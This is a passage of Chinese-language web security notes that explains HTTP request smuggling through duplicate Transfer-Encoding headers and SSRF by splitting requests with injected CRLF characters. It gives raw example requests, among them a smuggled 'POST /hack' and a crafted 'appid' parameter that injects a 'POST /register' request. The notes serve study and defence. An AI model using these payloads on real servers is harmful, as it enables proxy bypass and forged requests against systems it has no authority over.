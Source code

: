     * 反向代理服务器处理了第一个Transfer-Encoding，从而将数据全部转发给了Web应用服务器

    * Web应用服务器处理第二个Transfer-Encoding，发现处理不了，因此按Content-Type处理

      ```http
      POST / HTTP/1.1
      Host: 127.0.0.1
      Connection: keep-alive
      Content-Length: 4
      Transfer-Encoding: chunked
      Transfer-Encoding: what-ever-maybe-cat
      
      54\r\n
      ```

    * 缓冲区内容变成如下内容，下一次处理将处理这个请求

      ```http
      POST /hack HTTP/1.1
      Host: 127.0.0.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length:9
      
      user=2333\r\n
      0\r\n
      \r\n
      ```

### 9、什么是通过拆分请求实现SSRF攻击？

* http.get('127.0.0.1/data/2.5/weather?q=aaa,bbb&units=metric&appid=ccc')

  ```http
  GET /data/2.5/weather?q=aaa,bbb&units=metric&appid=ccc HTTP/1.1\r\n
  Host: 127.0.0.1\r\n
  Connection: close\r\n\r\n
  ```

* 假如将Get参数中的appid进行恶意构造，例如appid内容如下

  ```http
   HTTP/1.1
  Host:127.0.0.1
  
  POST /register HTTP /1.1
  Host:127.0.0.1
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 29
  
  username=1001&password=123456
  
  GET /
  ```

* 就可以将其由一个请求拆分为三个请求，但前提是服务端未完全过滤`\r\n`

  ```http
  GET /data/2.5/weather?q=aaa,bbb&units=metric&appid= HTTP/1.1
  Host:127.0.0.1
  
  POST /register HTTP /1.1
  Host:127.0.0.1
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 29
  
  username=1001&password=123456
  
  GET / HTTP/1.1
  Host: 127.0.0.1
  Connection: close
  ```
